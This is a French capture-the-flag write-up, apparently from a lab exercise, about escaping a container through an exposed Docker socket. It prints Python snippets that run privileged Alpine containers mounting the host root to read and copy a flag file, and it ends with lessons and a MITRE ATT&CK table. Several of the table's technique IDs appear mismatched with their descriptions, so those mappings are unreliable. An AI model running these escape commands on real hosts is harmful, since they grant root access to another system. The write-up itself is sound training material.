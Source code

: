 7. Le flag trouvé est vide, on a lu son contenu via :

```python
output = os.popen(
   "docker run --rm --privileged -v /:/host alpine "
   "cat /host/home/soda/.vscode-server/extensions/ms-vscode.cmake-tools-1.21.36/release.flag"
).read()
print(output)
```

***

## Difficultés rencontrées (savoir-faire)

- Dans la webapp, les sorties des commandes ne s’affichaient pas via `os.popen()`, on a contourné ça en copiant le flag vers `/tmp` sur l’hôte :

```python
import os
os.system(
  "docker run --rm --privileged -v /:/host alpine "
  "sh -c 'cp /host/home/soda/.vscode-server/extensions/ms-vscode.cmake-tools-1.21.36/release.flag /host/tmp/flag.txt'"
)

output = os.popen("docker run --rm --privileged -v /:/host alpine cat /host/tmp/flag.txt").read()
print(output)
```

- On a identifié l’IP de l’hôte avec `ip addr` pour pouvoir utiliser le shell netcat persistant.

***

## Ce que nous avons appris (savoir)

- Exposer la socket Docker c’est quasi donner un accès root total à l’hôte.
- Les conteneurs ne sont isolés que si on limite bien les privilèges et les volumes montés.
- En environnement restreint (shell Python dans webapp), il faut savoir contourner les limitations de sortie des commandes.
- Chercher un flag c’est aussi comprendre ce qu’il représente : parfois un fichier vide veut juste dire que l’exploitation a réussi.
- La forteresse MITRE ATT&CK nous aide à nommer et classifier nos attaques pour mieux les expliquer.

***

## Correspondance avec MITRE ATT&CK

| Technique | Description                                       | Notre usage concret                       |
|----------|-------------------------------------------------|------------------------------------------|
| T1611    | Evasion du container vers l'hôte                 | Docker socket exposé + conteneur root    |
| T1086    | Exécution via interface en ligne de commande     | Utilisation des commandes Docker en mode privilégié        |
| T1189    | Exploitation de l’API Docker exposée              | Exécution d'un conteneur persistant sur l’hôte              |
